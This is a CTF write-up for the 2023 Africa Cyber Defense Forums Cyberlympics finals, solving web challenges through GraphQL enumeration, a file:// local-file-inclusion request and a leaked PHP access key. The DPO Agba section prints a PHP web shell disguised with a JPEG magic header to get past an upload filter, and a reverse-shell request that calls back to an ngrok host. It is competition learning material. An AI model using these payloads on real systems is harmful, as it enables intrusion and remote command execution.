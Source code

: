 <h1> Final Africa Cyber Defense Forums Cyberlympics CTF 2023 </h1>

Team: RedTeam-TG

Id: Assa

I'll give the solutions to some of the challenges that I solved but you can check the full writeups of the team here:
<br>
https://hackmd.io/@RedTeamTG/acdfctf-final-2023

#### Web
- Grandline
- Image Lookup
- Konoha
- DPO Agba
  
#### Cryptography
- What's going on 

#### Forensics
- Detective Conan 1 

#### Steganography
- Toka 
</details>

<br>
<details><summary>Web :</summary>
  
- Grandline:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/7.png" alt="img"></p>

This is an injection of graphql code, we even have a console which displays the results of the commands

First of all, we are going to do the enumeration in order to see the functions and methods that are accessible. the following payload does the trick:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/1.png" alt="img"></p>

we can notice that we have an interesting function called "flags" with the id, author, content and flag parameters.
Let's try to query the id 1 of the flags function. here I specified the content and flag parameters.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/2.png" alt="img"></p>


We notice that we have a return with the following content: "Why don't you dig harder"; the rest becomes logical we must identify the id which contains our flag. I first tried id 2 then id 3 which turned out to be the right one.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/3.png" alt="img"></p>

Flag: acdfCTF{L3t_try_s0m3_Graph_0ut}


- Image Lookup:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/6.png" alt="img"></p>

This one is an easy lfi web challenge you just had to call the flag file with the following payload: "file:///flag.txt" , paying attention to encoding the characters /
here is the query that I used to get the flag

```http://16.170.230.246/index.php?url=file%3a%2f%2f%2fflag.txt```

Unfortunately the flag is no longer accessible on the server


- Konoha:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/4.png" alt="img"></p>

we have a source.php file. let's try to analyze it:
```python
<?php
$secretFilePath = '/app/Sup3rs3cr3tFlag.txt';

$secretKey = 'Kismet-Abzee-Berrywuxxxxx';

$requestedFile = isset($_GET['file']) ? $_GET['file'] : '';

$providedKey = isset($_GET['key']) ? $_GET['key'] : '';

$decodedFile = urldecode($requestedFile);

if ($providedKey !== $secretKey) {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
    exit;
}

if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
    $secretContent = file_get_contents($secretFilePath);
    echo $secretContent;
} else {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
}
?>
```
after reading we see that the source.php script gives us the possibility of making GET type requests with the "file" and "key" parameters. key is then the secret code allowing access to the file and file must contain the name of the file. 
```
if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
     $secretContent = file_get_contents($secretFilePath);
     echo $secretContent;
}
```
the previous lines check that the file name corresponds to Sup3rs3cr3tFlag.txt and displays this secret message to us 
```echo $secretContent;```
what could be simpler we have the name of the file and the key to access it.
be careful in the key value we have hidden characters (5 characters x) 'Kismet-Abzee-Berrywuxxxxx'.
It is therefore necessary to brute force the missing x characters. the hint gave us part of the missing characters, we just had to brute force the rest to obtain the flag.
Ps: apparently the 5 missing characters x could be found in the source code of the application personally I didn't solve it like that.
here is the final request to have the flag:

```http://51.20.91.159/source.php?file=Sup3rs3cr3tFlag.txt&key=Kismet-Abzee-Berrywuzh3r3```

The flag has unfortunately been removed from the server. I unfortunately didn't take a picture when I solved it but the previous request still exact..

- DPO Agba:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/8.png" alt="img"></p>

the images from the web server are no longer accessible I'm going to do a writeup for you a little blindly lol, I would have liked to add more illustrations but hey it doesn't matter, let's go.

The first step was to decode the obfuscated data in the source code. Cyberchef made it possible:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/9.png" alt="img"></p>

when we analyze the result we can see that we have a way to upload images to the server using the upload.php file. What better way to have a shell!.
Unfortunately when we tried to upload our image, we have restrictions that prevent us from uploading php files or anything other than images and in addition the file size must not exceed more than 35 bytes. Here we need to bypass these restrictions.

We can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify our file's header like this.

our initial payload: ```<?php system($_GET['cmd']); ?>```

but to make that work we have to change the header to that of a .jpeg file. Checking it up online I found this “FF D8 FF EE”. So, let’s change the header to that; hexed.it does the trick.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/10.png" alt="img"></p>

our final image content should look like this: ```ÿØÿî<?php system($_GET['cmd']); ?>```

Now, that we have successfully changed the header we can upload our file "cmd.php"

after that I just launched a reverse shell on my computer using a TCP connection with an ngrock server. So I was able to have a shell. The next step was to look for the flag on the server. I spent a lot of time looking for the flag before finding it one of the files on the server. 

Here the payload that I used to get the shell:<br>
```http://16.170.159.222/images/cmd.php?cmd=php+-r+'$sock%3dfsockopen("tcp://4.tcp.ngrok.io",16205)%3bexec("sh+<%263+>%263+2>%263")%3b'```
</details>
